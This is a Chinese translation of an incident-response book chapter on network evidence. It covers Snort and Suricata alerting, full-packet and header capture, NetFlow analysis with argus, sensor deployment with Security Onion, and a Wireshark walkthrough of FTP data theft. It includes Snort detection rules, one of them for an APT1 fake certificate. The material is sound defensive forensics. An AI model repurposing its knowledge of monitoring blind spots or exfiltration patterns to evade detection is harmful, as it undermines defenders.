1. 市场上推出了一款名为“Cyber Imager Pro”的新硬盘复制和成像产品。您的老板希望您评估该产品是否适合在您的组织中执行取证复制。请描述您将如何评估该产品并确定是否可接受。
2. 如果您已经将证据硬盘连接到系统进行成像，是否需要使用写入阻止器（write blocker）如果要引导基于Linux的取证CD？解释为什么或为什么不需要。
3. 您的任务是为您的组织建立标准的硬盘成像工具和过程。您将采取哪些考虑和步骤来创建标准？
4. 您正在尝试成像硬盘，但该过程似乎在中途随机失败。成像软件报告无法从源驱动器读取。您将如何解决问题？


## 第9章 **网络证据**

- *当时，本书的前几个版本于2000年代出版时，很少有组织认为网络监控是良好信息安全策略的必要组成部分。这只是一种在高技能Unix工作人员的组织中才会发现的做法，他们优化得非常好，以至于基础设施几乎可以自行运行。只有那时候，一两个无聊的系统管理员才会花时间在几个交换机的SPAN端口上放置传感器。正如本版中重新讨论的几乎每个主题一样，这种情况已经发生了重大变化。变化是如此之大，以至于许多在证券市场上交易股票的公司，完全基于企业网络监控和可以从中推导出的智能而存在。

在已经成为“传统网络监控”的情况下，解决方案是主动实施的。有许多企业解决方案可用，可以从少数几个传感器节点扩展到许多数百个。在调查期间，如果您的组织拥有出口点监控的现有基础设施，您可能希望利用它。但是，如果您的团队无法在合理的时间内添加或修改传感器上的签名，或者您需要监视内部子网，则可能需要部署自己的战术传感器。在任何情况下，如果您的团队具有创建，测试和解释基于网络的签名的经验，则从恶意软件分析和其他来源收集的情报可以轻松用于检测其他恶意活动。

在本章中，我们将讨论如何构建您可以在调查期间使用的传感器，哪些收集类型对IR团队提供最大的利益以及如何解释您收集的数据。

### **网络监控的理由**

通常在调查期间会有大量潜在的可操作信息。为什么要尝试监视出口点和内部网络，从而增加混乱呢?如果已经有监控基础设施，团队可以快速将从日志和恶意软件收集到的情报转化为签名，帮助您执行以下操作：

- 确认或驳斥有关涉嫌计算机安全事件的怀疑
- 积累更多的证据和指标
- 验证妥协的范围
- 识别涉及的其他方
- 生成发生在网络上的事件时间线

在某些情况下，由网络传感器或设备捕获的数据是攻击者采取某些行动的唯一证据。例如，考虑一个针对应用服务器的POST请求。除非您拥有代理或服务器配置了mod_security或类似的东西，否则基于主机的日志记录将使您盲目。本章的一个场景将演示如何使用POST HTTP命令捕获和解码发送到服务器的命令。

### **网络监控类型**

在进行IR时开始监控网络时，可以选择收集四个不同级别的详细信息。第一个级别最接近于您通过正常安全监控习惯得到的详细信息：基于事件的警报。Snort和Suricata是主要用于此类监控的应用程序。在出版时，有两个可用的商业软件包分别为Sourcefire和RSA NetWitness。当配置好已经经过充分测试和调整的规则集时，它们将在监控网络上观察到预定义条件时生成事件（或警报）。下面两个级别的详细信息收集符合给定标准的数据包和会话信息，需要调查人员对数据进行后处理以提取有用于调查的信息。这些选项称为标头和完整数据包记录。最后，可以生成高级别统计数据，显示通过您的网络传输的数据的性质和量。

- **在网上获取**
  
    **Snort** [www.snort.org](http://www.snort.org/)
    
    **Suricata** [www.openinfosecfoundation.org](http://www.openinfosecfoundation.org/)
    
    **Sourcefile** [www.sourcefire.com](http://www.sourcefire.com/)
    
    **RSA NetWitness** [www.emc.com/security/rsa-netwitness.htm](http://www.emc.com/security/rsa-netwitness.htm)
    

哪种捕获方法对您的团队最有益？理想情况下，您的平台应能够处理所有四种。如果您的团队分析了恶意软件的基于网络的指标，则基于事件的警报将为您提供实时通知，这可以帮助您快速识别网络上其他感染的系统。当节省使用时，标头捕获和完整数据包记录可以帮助您确定数据盗窃的范围，捕获使用交互式shell的攻击者的活动，并更密切地监视恶意软件和远程站点之间的通信。最后，如果您对事件知之甚少，则可疑的流量模式和传输量可以揭示有趣的信息，这些信息在其他情况下是无法检测到的。

### **基于事件的警报监控**

基于事件的警报是大多数IT和信息安全组织熟悉的监控形式。存在许多免费和商业平台来帮助工作人员轻松监控整个组织，至少在部署方面如此。该类型的网络监控基于平台上使用的规则或阈值。在其最简单的形式中，事件指示传感器观察到了某些有趣的事情。传统事件是由网络入侵检测系统（NIDS）生成的，但是事件也可以由监视流量模式和流程的软件生成。

事件监控的标准工具是Snort和Suricata。两者都有其优点，根据您的要求，任何一种都可能适合您的组织。我们不会罗列每个工具的优缺点，因为它们很快就会过时，我们将引用之前提到过的网站。在本章中，我们使用Snort来演示这种类型的监控。

基于事件的监控依赖于与网络传感器观察到的流量匹配的指标（或签名）。指标可以很简单，例如特定IP地址和TCP端口的组合（例如，当网络上的任何计算机尝试连接Web服务器上的安全Shell守护程序时发出警报）。简单规则通常很“便宜”，因为它们对传感器只产生很小的负载。指标也可以是复杂的。复杂的指标涉及会话重建或字符串匹配，需要分析引擎维护连接状态。如果在传感器上堆叠太多这些指标，您可能会发现它无法跟上传入数据的速率。以下是一个简单指标的示例，如果系统尝试与IP地址为192.168.2.78的Web服务器建立安全Shell连接，则会引发警报。它被配置为最多每分钟向源IP地址发出一次警报。

```
alert tcp $HOME_NET any -> 192.168.2.78 22 (msg:"Attempted SSH connection to web
   server"; threshold: type limit, track by_src, seconds 60, count 1;
   classtype:misc-attack; sid:1000001; rev:1;)

```

多种输出插件可用于Snort，您选择在Snort配置文件中启用哪些取决于团队如何决定管理传感器生成的信息。稍后我们会涵盖一些管理控制台，但最简单的输出模块称为alert_fast。它提供了一种简单的方式，通过向文件发送ASCII文本来验证传感器是否正确运行某些规则集。在这个例子中，Snort配置文件包含了字符串“output alert_fast alerts.txt”。刚刚显示的指标每分钟生成一次alert_fast输出模块的一个条目，每个源IP地址一次，显示在我们的输出文件alerts.txt中：

```
11/24-20:16:41.515991  [**] [1:1000001:1] Attempted SSH connection to web server
   [**] [Classification: Misc Attack] [Priority: 2] {TCP}
   192.168.2.104:56387 -> 192.168.2.78:22

```

检测内部Web服务器的SSH连接是一个相当简单的例子。Snort中的分析引擎仅匹配IP和TCP头，并且如果没有其他指标具有部分（或潜在）匹配，则可以丢弃数据包的其余部分。公共域中的Emerging Threat规则提供了大量真实的世界例子。这里是一个由Emerging Threats编写的指标，用于识别Mandiant的2013 APT1报告中识别的攻击者使用的伪造SSL证书：

```
alert tcp $EXTERNAL_NET 443 -> $HOME_NET any (msg:"ET TROJAN FAKE AOL SSL Cert
   APT1"; flow:established,from_server; content:"|7c a2 74 d0 fb c3 d1 54 b3
   d1 a3 00 62 e3 7e f6|"; content:"|55 04 03|"; content:"|0c|mail.aol.com";
   distance:1; within:13; reference:url,www.mandiant.com/apt1;
   classtype:trojan-activity; sid:2016469; rev:3;)

```

这个指标在寻找什么？引用APT1报告中发布的信息，我们知道该证书可以通过序列号、有效期、发行者名称等描述性数据进行识别。Emerging Threats的人选择使用证书序列号和Issuer字符串的组合。第一个content字符串，从“7c a2”开始，是证书的序列号。第二个和第三个content字符串标识了当三个字节0x55、0x04和0x03（在1到13个字节的偏移量处）后跟字节0x0c和ASCII字符串“[mail.aol.com](http://mail.aol.com/)”时的情况。这两个content字符串一起标识证书的发行者。这导致一个非常强大的指标，不太可能返回错误警报。

### **标头和完整数据包日志记录**

完整数据包日志记录在我们的调查过程中用于两个不同的目的，而这个目的决定了我们如何处理收集到的数据。第一个目的是收集系统之间传输的数据，以帮助IR团队生成签名、监视活动或识别可能被盗的数据。第二个目的是收集证据以支持内部调查或法律事务。这两个目标有时会交叉，而在调查开始时很难知道这个问题是否会导致行政或法律行动。通常情况下，如何处理数据的决定取决于被监视的主题。如果您的调查导致您捕获来自您的企业基于Windows的DNS服务器的所有流量，这些流量不是通过TCP或UDP端口53进行的，那么这是一个不同的情况，如果您捕获了那个可疑的销售人员生成的所有流量，您怀疑他正在向竞争对手泄露信息。后者在处理和存储数据时需要额外的注意。在许多情况下，如果您从一开始就无法确定调查可能导致哪里，最好将所有捕获的数据视为证据来跟踪，包括维护一条责任链。最好在开始时创建过多的文档并放松流程，而不是从一开始就面对缺乏文档的后果。

捕获的方式也受调查目的的影响。当需要捕获的数据是响应于可定义事件时，IDS系统通常有能力保留感兴趣的整个会话。这个功能可以让您快速收集恶意软件、被盗数据和交互式登录的完整会话进行分析。然而，我们不会依赖于Snort或其他IDS平台进行针对特定对象的定向收集。在这些情况下，我们完全依赖tcpdump或Wireshark。

完整数据包监视提供了从网络传递的实际通信所代表的最高保真度。以下是使用tcpdump捕获的一个数据包的完整内容：

```
      23:47:27.276812 c8:2a:14:16:1d:fb (oui Unknown) > 00:00:24:cd:7f:8c (oui Unknown),
         ethertype IPv4 (0x0800), length 142: (tos 0x0, ttl 64, id 64092, offset 0,
         flags [DF], proto TCP (6), length 128, bad cksum 0 (->4a21)!)
			192.168.2.40.49279 > kpn.ntop.org.http: Flags [P.], cksum 0xf66c
         (incorrect -> 0x230c), seq 1:77, ack 1, win 8235, options
         [nop,nop,TS val 2133023077 ecr 54933409], length 76
						0x0000:  0000 24cd 7f8c c82a 1416 1dfb 0800 4500  ..$....*......E.
            0x0010:  0080 fa5c 4000 4006 0000 c0a8 0228 6da8  ...\@.@......im.
            0x0020:  6fdf c07f 0050 ac23 b71b b3bd d493 8018  o....P.#........
            0x0030:  202b f66c 0000 0101 080a 7f23 5965 0346  .+.l.......#Ye.F
            0x0040:  37a1 4745 5420 2f20 4854 5450 2f31 2e31  7.GET./.HTTP/1.1
            0x0050:  0d0a 5573 6572 2d41 6765 6e74 3a20 6375  ..User-Agent:.cu
            0x0060:  726c 2f37 2e33 302e 300d 0a48 6f73 743a  rl/7.30.0..Host:
            0x0070:  2077 7777 2e6e 746f 702e 6f72 670d 0a41  .www.ntop.org..A
            0x0080:  6363 6570 743a 202a 2f2a 0d0a 0d0a       ccept:.*/*....
```

这个142字节的数据包展示了一个来自192.168.2.40系统的HTTP GET请求。它展示了以太网帧、IPv4头、TCP头和数据包的有效载荷。在本书中，我们不会详细介绍数据包拆解的细节，尽管这会非常有趣。要学习基础知识，请查阅W. Richard Stevens的《TCP/IP Illustrated，卷1：协议》。互联网上有无数的参考资料，可以帮助您建立技能。

标头捕获仅保留每个数据包的一部分。目的是在限制捕获长度为约64个字节的情况下，收集以太网、IP和TCP或UDP标头，同时存储很少或不存储用户数据。除了一些捕获和处理数据包标头的统计分析工具之外，我们发现标头捕获有用的唯一时刻是我们正在捕获数据作为或为执法部门。标头捕获在许多方面与传统的“陷阱和跟踪”相当，并且在某些圈子中，这些术语是可以互换使用的。在任何情况下，如果您发现自己正在捕获用户数据，请确保您的法律顾问知道。律师最讨厌的是惊喜。

### **统计建模**

统计监控关注的是连接或流在网络中的高级视图。流量流的建模在调查的各个阶段可能会非常有用，特别是在端点没有完全可见性的情况下。当存在持续活动并且很少对其进行解释时，这种情况就会出现。为了生成有用的数据，大多数软件会在一段时间内从源捕获或解析协议标头，并根据解释定时和数据包结构呈现数据。

大多数组织将从NetFlow探针生成适合分析的数据。 NetFlow数据可以起源于Cisco网络设备或任何其他能够运行能力代理的设备。这种类型的数据流包含设备观察到的每个“流”或会话的字节数和数据包数的计数。您还可以将PCAP捕获文件传递给NetFlow探针。在任何一种情况下，都有几种方法可用于分析和可视化数据。 Fluke，HP，Solarwinds和IBM是提供NetFlow分析产品的领先公司。在本章中，我们重点介绍各种开源许可应用软件的软件，包括argus和flow-tools。

- **GO GET IT ON THE WEB**
  
    **argus，网络审核记录生成和利用系统** [www.qosient.com/argus/](http://www.qosient.com/argus/)
    
    **flow-tools** [code.google.com/p/flow-tools/](http://code.google.com/p/flow-tools/)
    

当这些信息可用时，我们使用flow-tools和argus查找数据中的模式。通常，当我们转向NetFlow分析时，我们要么回答一个非常具体的问题（“在攻击被怀疑的时间范围内，是否有大量的数据离开了环境？”），要么寻找具有特征的通信进行信标或其他恶意通信（端口扫描，异常流向预期行为的流，等等）。

在以下示例中，我们有一个只有八分钟长的短全内容捕获会话。这个网络捕获是由tcpdump执行的，它监视了几个Web服务器所在的子网。让我们拿这个PCAP文件来确定是否有任何可疑活动来自Web服务器。这个例子有点牵强，我们展示的简单统计数据可以通过其他方式轻松检测，特别是如果网络有很好的出口规则。

要将PCAP文件转换为argus的数据客户端可消耗的数据文件，我们运行以下命令：

```
argus -mAJRU 512  -r serverFarm_1.pcap -w serverFarm_1.pcap.arg3

```

在处理数据时，我们尽可能保留尽可能多的字段，以减少我们重新处理数据的机会。此命令保留MAC地址（m），应用程序字节度量（A），数据包性能数据（J），响应时间（R）和512字节的应用程序数据（U）。Argus将从标准PCAP格式文件读取（-r），并输出（w）以便于argus工具套件阅读的格式。然后，输出文件准备好进行其他处理。

让我们来看看可疑的出站流量数据，特别是HTTPS，因为我们知道有几种攻击会从外部站点拉取第二阶段代码：

```
ragraph dbytes dport -M 1s -fill -stack -r serverFarm_1.pcap.arg3 - tcp and
   dst bytes gt 68 host server1

```

这个命令（使用 argus 二进制文件“ragraph”）将生成一个目标端口的目标字节的条形图，用于显示来自主机 server1 的所有 TCP 流量，其目标字节大小超过 68。结果显示在图 9-1 中。正如您所看到的，捕获的唯一具有 dst 大小 > 68 的流量是 HTTP 和 HTTPS 流量。在 15:34，活动出现了巨大的峰值，峰值达到了 3.8 Mbps。在对服务器本身进行分析时，这个时间段可能是一个很好的起点。


这个峰值是否符合重复出现的模式？让我们重新运行 ragraph 命令，但是我们将在先前的命令中添加 -log 选项，以检查 ragraph 执行的自动缩放中丢失的数据。 y 轴为对数刻度的版本显示在图 9-2 中。
在这个 PCAP 中捕获的非常短的时间内，通信似乎不是周期性的，但是我们现在看到在大约 15:29:25 开始的 75 秒传输。如果涉及的服务器不会发起 HTTPS 流量，这也可能是值得调查的事情。


### **设置网络监视系统**

在我们到达现场后的短时间内，我们尝试着关注网络出口点。在正式建立我们的网络监视程序之前，我们经常会在办公室和数据中心的硬件网络监听器旁边部署笔记本电脑或 1U 服务器。由 Snort 和 tcpdump 组成的自定义解决方案为我们提供了最大的灵活性，特别是当运行网络的人已经拥有入侵检测系统时。一般来说，IDS 平台不能可靠地同时执行入侵检测和网络监测职责。当然可以做到这一点，但请记住，一旦指示 IDS 传感器开始进行全内容捕获，其作为传感器的效果将会降低。

设置监视器以执行网络监视需要一些规划和准备工作。您部署监视器的能力将受到您的网络架构，被监视的段的带宽和利用率以及非技术影响（如企业政策和有限的预算）的影响。

创建成功的网络监视系统需要执行以下步骤：

- 为执行网络监视定义目标。
- 确保您有执行监视活动的合适法律地位。
- 获取并实施适当的硬件和软件。
- 确保平台的安全性，包括电子和物理安全。
- 确保监视器在网络上的适当位置。
- 评估您的网络监视器捕获的数据，以确保您实现了定义的目标。

这些步骤中的任何一个缺陷都可能在您的组织内产生不可靠和无效的监视能力。让我们更仔细地看看如何选择监视硬件和软件以及如何设计和评估您的监视器。

选择适当的硬件

您可以购买商用系统或构建自己的网络监视器。 关键问题是确保您的系统具备执行监视功能所需的功率。 收集和存储穿越高速链接的每个数据包可能异常困难。 具有高吞吐量连接的组织应投资于企业级网络监视设备。

许多组织将需要依赖自制解决方案。 在某些方面，这些解决方案更可取，因为您可以根据自己的需求进行定制。 选择一个稳定，强大的平台，并将其专用于网络监视。 我们的自定义网络监视系统是来自大型制造商的1U服务器，我们可以在硬件故障发生时依赖它们。 我们通常推荐几个预构建的发行版，基于GNU / Linux操作系统。 众所周知，稳定的Unix平台的性能优于所有其他选项。 直到最近，FreeBSD操作系统提供了最高效的捕获环境。 然而，由于NTOP小组在PF_RING网络套接字上所做的进展，Linux内核现在已经取代了FreeBSD的内核成为我们平台的核心。 要利用其工作的其他功能，必须熟悉维护用于所使用的Linux版本的内核模块，直到Linux内核团队承认NTOP的PF_RING的性能优于他们自己的AF_PACKET接口并将其成为内核的一部分。

- **我应该购买什么？**
  
    市场上有几个系统能够在高速网络上捕获和保留数据。 随着开创领先领域的初创公司被收购的速度，如果我们列出链接，它们将在一年内不准确。
    我们建议单独跟随开发团队或其主要开发人员。 在我们编写本书时，Solera Networks和NetWitness的工程团队正在设计最有效和用户友好的商业网络分析系统。
    
- **在Web上获取它**
  
    **基于商品硬件的当前数据包捕获解决方案的比较和改进（2010）** [conferences.sigcomm.org/imc/2010/papers/p206.pdf](http://conferences.sigcomm.org/imc/2010/papers/p206.pdf)
    
    **在现代商品硬件上进行10-Gigabit以太网环境中的数据包捕获（2007）** [www.net.t-labs.tu-berlin.de/papers/SWF-PCCH10GEE-07.pdf](http://www.net.t-labs.tu-berlin.de/papers/SWF-PCCH10GEE-07.pdf)
    

当我们开始调查时，我们纯粹处于战术模式，通常没有访问长期监视系统的优势。 当他们被通知入侵时，大多数组织会发现自己处于这种情况。 当需要快速部署监视技术时，没有什么比硬件网络分流器（或强大的SPAN端口）与带有tcpdump的Snort传感器更好的选择。 另一方面，如果您有预算在发生事件之前安装监视解决方案，则有一些商业解决方案结合了类似Snort的警报和存储。

2013年，存在两种商业软件包，我们经常向希望设置和运行自己的监视系统的组织推荐。 第一个是Solera Networks的DeepSea设备，第二个是RSA的NetWitness平台。 如果您习惯于Snort安装的简单性，则两个商业选项可能会有点震惊。 在推荐的安装配置中，两者都最适合按层次结构工作; 传感器馈入收集器，由用户工作站或管理服务器查询。

由于商业平台上的传感器管理得到了很好的记录，因此我们将重点放在开源选项的使用上。 无论您是安装长期监视平台还是正在进行调查，步骤都是相似的。

### **预构建发行版的安装**

除非您的团队在Linux方面具有显着的经验（包括内核补丁），并且有时间烧，否则您将希望在现有传感器发行版上构建您的平台。 我们建议从Security Onion发行版开始。 可以从ISO光盘映像安装Security Onion（SO），也可以选择在您喜欢的Linux发行版上安装它。 安装SO时，它会管理所有必要的操作系统和内核调整，以便为您提供可靠的平台。

- **在Web上获取它
  
    安全洋葱网站** [www.securityonion.net](http://www.securityonion.net/)
    

Security Onion（SO）团队维护一个定制的Xubuntu发行版，其中包含所有必需的SO软件和依赖项。 发行版可作为ISO映像提供，可用于创建可引导的DVD或USB闪存驱动器。 一旦您启动媒体，以下步骤将使您立即运行基本安装（有关更多详细信息和安装帮助，请访问SO网站）：

1. 在初始引导菜单中，选择“install - start the installer directly”。
2. 系统启动后，双击Install Security Onion。
3. 通过提示进行操作，接受默认值并输入适当的信息。
4. 几分钟后，安装将完成，系统将重新启动。
5. 登录，然后双击Setup。 对系统进行了一些更改，然后它会再次重新启动。
6. 登录，然后双击Setup。 点击提示，选择快速设置。 然后选择要监视的网络接口。 在提示安装ELSA时，选择YES。
7. 在几分钟后，设置将完成。
8. 访问SO的高级工具的超链接位于桌面上。 或者，您可以浏览到分配给系统的IP地址的HTTPS端口，其中提供了有用的链接的网页供您使用。

设置完成后立即开始监视。 请记住，SO的Web工具（例如Snorby和Squert）中的一些不会实时显示事件。

- **在网络上获取它
  
    安全洋葱简介** [code.google.com/p/security-onion/wiki/IntroductionToSecurityOnion](http://code.google.com/p/security-onion/wiki/IntroductionToSecurityOnion)
    

在这一章中，我们关注使用SO作为内置能力的一个小子集的平台。在本章中使用的工具是与其他一些非常有用的传感器和警报管理应用程序一起安装的。我们强烈建议在依靠组织之前阅读安全洋葱介绍页面并尝试使用SO进行实验。

### **部署网络传感器**

网络传感器（或在某些情况下，支持多个监视设备的分流器）的放置可能是设置监控系统的最重要因素。了解网络环境是必要的。在开始之前，组织合适的人员回答以下问题：

- 网络出口在哪里？
- 网络是否使用特定路由来控制内部流量？外部流量？
- 子组织或管理边界是否有“瓶颈”可用？
- 网络地址转换设备在使用中吗？Web代理？
  
    这些因素影响网络传感器的放置以及您使用的软件。例如，如果您选择监视标记的VLAN流量的点，则可能需要为特定的VLAN标记指定配置。如果您的监视点是高带宽连接，具有高持续吞吐量，则可能需要部署多个传感器并找到一种分区会话的方法。
    
    不要犹豫提出可以帮助调查的重大网络变更。在许多情况下，事件提供足够的理由进行改变，许多人同意这将导致更好的配置。有时，事件足以让人们克服临时的不便，同时进行更改。
    
    在最近的一项调查中，我们的客户有超过40个分支机构，每个机构都有自己的互联网连接。尽管企业流量通过IPSec隧道发送到中心位置，但每个办公室都配置为通过各自的本地网关路由面向互联网的流量。这种配置并不适合全面监视。新的IT主管抓住了在总部拥有多余网络容量的机会来实施MPLS（多协议标签交换）跨组织，这使得传感器管理挑战变得更加简单：两个传感器用于监视内部和外部流量。
    
    还将传感器放置在物理安全的位置非常重要。当您部署用于执行网络监视的系统时，您需要在只有少数可信员工可以访问的锁定房间中保护系统。如果您需要捕获将用于行政或法律行动的数据，请记住证据链及其如何定义控制权。
    

在传统的信息安全意义上，记得像任何其他Unix系统一样保护监视器的安全性。防止未经授权的访问并保持补丁更新。最后，记录所有内容。请记住，传感器的配置和安全性与其可能捕获的潜在证据是相关的。审查日志并考虑使用工具，如Tripwire，定期验证传感器平台仍然是收集证据的可信平台。

### **评估您的网络监视器**

一旦您有了一个平台，您将想要评估两个主要问题。监视器是否接收您打算监视的流量，硬件是否足够响应以实现您设置的监视目标？以这种方式验证传感器的操作似乎相当明显；然而，我们遇到过许多情况，其中一个不知道网络路由流量如何设置传感器的团队，分析师会在几周后发现感兴趣的网络流量经过不同的网关路由。我们不会详细介绍如何排除此类错误配置，但建议您创建几个由特定流量触发的签名。例如，当从您公司的外部站点请求不存在的网页时，系统发出警报可能足够。您可以要求特定办公室的系统属于随机员工访问触发指示器的特定URL。尽管该过程不验证整个签名集，但它有助于排除传感器放置，SPAN或tap问题以及传输封装的解码。也要密切监视软件保存的统计信息。Snort和Suricata将记录性能指标，告诉您传感器是否丢失数据包。发生这种情况时，请仔细查看您的签名。很多时候，编写不良的签名会导致软件丢失数据包，因为签名引擎无法跟上。在某些情况下，驱动程序或硬件存在问题;数据量或数据到达速率可能会使驱动程序无法快速传输数据以跟上传入的流量。

### **网络数据分析**

一旦您获得了相关的网络数据，您将需要某种方式来检查它。在本节中，我们提供两个场景，并使用流行的数据包分析工具Wireshark检查相关的网络捕获数据。您可以使用许多其他工具，大多数具有相同的基本功能。我们选择Wireshark，因为它是一种非常受欢迎的免费，开源和多平台工具。此外，您可以创建自己的解码器，无论是C还是LUA。仅此能力使它成为处理网络可见恶意软件的事件响应人员的非常有价值的工具。您可以选择使用其他工具来分析数据。我们始终鼓励调查人员熟悉同一任务的多个工具 - 如果不是为了灵活性，就是为了流程验证。如果您正在处理需要以重要方式解码或解释的数据，请通过几个不同的实用程序或过程运行数据以确保结果一致。常见的情况是，存在一个似乎无问题地处理数据的实用程序，但省略了潜在重要信息。当使用自定义工具或过滤器时，流程验证尤为重要。

在调查期间，我们通常限制所执行的网络数据分析的范围 - 这意味着，如果没有充分的理由，我们不会尝试在网络数据堆栈中“寻找新的恶意”。正如我们之前提到的，每当我们分析数据时，我们关注跟随线索并回答调查问题。在大多数现实世界的事件中，您不会发现我们试图从组织的主要互联网连接中分析五TB的未经过滤的网络捕获数据，或者尝试挖掘过去的DNS查询以建立模式 - 这通常更适合IT安全或研究环境。在事件中，您有一栋着火的建筑物，有人需要帮助。您必须保持专注。

按照这种哲学，我们设计了两个场景，让您有机会熟悉网络数据的观察。由于我们希望您能够自行执行分析，因此这本书的伴随网站中包含了这两个场景的数据包捕获文件。这些场景基于真实事件 - 它们不是思维实验。如果您是我们的客户，您可能认为我们正在谈论您的组织。然而，攻击者在过去的二十年中已经在数千个组织中使用了这些场景中的确切事件序列。换句话说，这些场景很普遍。

第一个场景是简单的数据盗窃 - 攻击者使用RAR归档和压缩数据，然后使用FTP将数据传输到外部服务器。第二个场景涉及攻击者在您的非军事区（DMZ）中的Web服务器上安装的基于PHP的Webshell，并使用它对您的网络进行侦察。为了更容易说明问题，我们将假定这些场景中的受害者实施了完整内容网络监视，并且我们可以访问数据。

谈到数据，您可能想知道网络捕获数据的形式是什么。在事件中，我们最常见地以从专用监视解决方案导出的数据包捕获（或“pcap”）文件的形式获得网络捕获数据。数据包捕获或“pcap”文件是网络捕获数据的事实标准文件格式。几乎所有处理网络数据的网络工具都支持pcap文件格式。一些工具不仅支持pcap格式，而且还可以本地读取许多其他格式。然而，无论是您自己创建捕获还是从另一个团队获取捕获，我们建议使用pcap格式，因为它是最通用的。

现在，我们已经提供了一些背景信息，让我们进入我们的第一个场景的细节：数据盗窃。

#### **数据盗窃场景**

2013年12月3日，一个黑暗而暴风雨的夜晚。你正在进行一项调查，发现两天前，攻击者访问了一个用户的桌面系统，并执行了rar.exe和ftp.exe，每个程序只执行了一次。RAR是一个文件存档程序，一些攻击者经常使用它来将他们想要窃取的许多文件合并并压缩成一个单一文件。这个过程使攻击者更容易将数据从受害者的网络传输出去。ftp.exe程序是一个FTP客户端，用于下载或上传文件到FTP服务器。在这种情况下，主机的证据不够详细，无法回答RAR或FTP用于什么，你只发现这些程序被执行过。然而，通过访谈，你知道这不是该系统用户的任何正常活动。

管理层非常有兴趣能够回答发生了什么，而这种有限的证据引发的问题比回答更多。虽然这种情况符合指示数据盗窃的常见证据模式，但重要的是确认是否实际发生了盗窃，并确定更多关于被盗和它被转移的内容。幸运的是，你的组织维护了三天的完整内容网络捕获数据。在完整内容网络捕获的帮助下，你可以提供关于发生了什么的坚实答案。即使是连接信息（标头）或NetFlow数据也会提供一些答案，尽管完整内容更有可能提供完整的图片。让我们看看网络捕获数据如何有所帮助。

第一步是确定捕获数据中的FTP会话。在这种情况下，我们知道执行了ftp.exe，这表明攻击者可能已经使用FTP客户端传输数据。这个证据是一个Windows prefetch文件，表明该程序仅被执行了一次，因此我们也知道了它被执行的确切日期和时间-2013年12月1日00:57 UTC。我们还可以使用DHCP服务器日志来跟踪系统分配的IP地址，但这可能是不必要的，因为我们有特定的协议（FTP）和事件发生的时间。因此，我们将通过查询捕获系统来查找有关该日期的任何FTP会话。系统返回了73个会话的列表，但只有两个会话接近ftp.exe执行的时间。会话都是到同一个外部IP地址，但来自两个不同的内部IP地址。一个会话正好穿越ftp.exe预取证据的时间，但另一个则在15分钟之前。因为两个会话都是到同一个外部IP地址，所以你决定提取和分析它们两个。你将两个会话都导出到pcap格式的文件中，这是所有主要网络流量分析工具都支持的格式。接下来，让我们深入研究数据包。

我们将使用Wireshark，最流行的网络数据包分析工具之一，来检查这些会话。Wireshark是基于GUI的，支持数百种网络协议，并在所有主要操作系统上运行，包括Linux，Windows，BSD和OS X。Wireshark的许多功能也存在于一组命令行工具中，这些工具是该项目的一部分。

- **在网上下载Wireshark**
  
    [Wireshark网站www.wireshark.org](http://xn--wiresharkwww-1n64au23b.wireshark.org/)
    

因为初步线索发生在第二个会话的时间范围内，我们将从那里开始分析。第一个会话似乎可能有联系，但我们应该在花时间，可能会分心于第一个会话之前完成调查。

快速检查第一个会话中发生了什么的方法是在Wireshark中打开pcap文件，选择Statistics | Conversations，然后单击TCP选项卡。在图9-3中，我们看到两个对话，都是相同的IP地址之间的对话。

一个对话连接到目标端口“ftp”，另一个连接到“ftp-data”。这与包括文件传输的ftp会话一致，因为ftp实际上使用了两个端口-port 21用于ftp命令和port 20用于数据传输。查看发出的ftp命令最简单的方法是单击连接到“ftp”端口的对话，然后单击Follow Stream，如图9-4所示。 Wireshark将处理该对话的数据包，包括重新排序和处理重传，并在窗口中显示重新组装有效负载的结果。在这种情况下，我们看到ftp命令由使用用户名“frank”的登录组成，然后是一个名为edi-source.bin的608,414个字节的文件传输。你可以使用“另存为”按钮将命令保存到一个文件中。


继续查看对话，我们可以看到只有一个“ftp-data”对话。这与我们看到的ftp命令一致 - 传输了一个文件。ftp-data对话是纯文件数据流，这意味着如果重新组装和保存此对话的数据有效负载，我们将拥有传输的文件副本。同样，在Wireshark中完成这项操作的最简单方法是单击统计 | 对话中的ftp-data对话，然后单击TCP选项卡。接下来，单击跟随流，一个窗口将弹出，显示文件传输的内容。

然后，您可以使用“另存为”按钮保存文件。您保存的文件将是会话期间传输的文件的精确副本。如果您熟悉常见文件头，您可能可以猜测文件实际上是什么。 “Rar！”头文件与RAR文件归档和压缩工具相关联。根据对rar.exe在系统上执行的初步调查结果，这与我们所预期看到的一致。图9-5显示了恢复的RAR文件的内容。

- 注意：
  
    我们所指出的这些一致性可能看起来很明显或无用，但根据我们的经验，任何不一致或意外结果通常表明存在知识差距，需要进行额外的调查。有时候，没有足够的证据来解释不一致性，在这些情况下，重要的是要意识到您的结论的局限性。随着未解释的不一致性或意外结果的增加，与它们相关的结论的信心应该下降。
    


此时，让我们回顾一下我们所发现的。你已经确定了一组FTP命令，这些命令传输了一个名为edi-source.bin的单个文件，并且你拥有该文件的副本。文件被传输到的外部IP地址203.0.113.100不属于任何正常的业务流程。对文件的初步审查表明它是一个RAR存档。这为我们进行进一步分析提供了一些坚实的证据，并可以用作寻找其他证据的线索。例如，当你试图打开RAR文件时，你发现它是受密码保护的。目录完整，所以你可以创建一个文件名列表，但你无法提取数据。文件名表明RAR包含源代码。为了访问数据，你可以请求取证检查人员寻找受害者系统上常见RAR命令行的证据，以尝试找到使用的密码。你还可以请求破解密码，尽管可能需要相当长的时间。也许攻击者很懒，使用“frank”作为密码。你还可以请求检查其他日期的与外部IP地址203.0.113.100相关的会话，或使用类似的用户名的会话。但是这个会话还有什么可以获取的信息呢？

有时候，了解攻击者是手动执行任务还是使用了一些自动化工具是很有用的。在自动化的情况下，系统上可能会有其他证据，例如用于自动化进程的脚本或程序。如果网络会话表明任务是自动化的，那么在检查系统时，可能需要额外努力，以找出自动化是如何完成的。这些证据可能提供坚实的线索，例如脚本和被盗数据的文件命名约定。

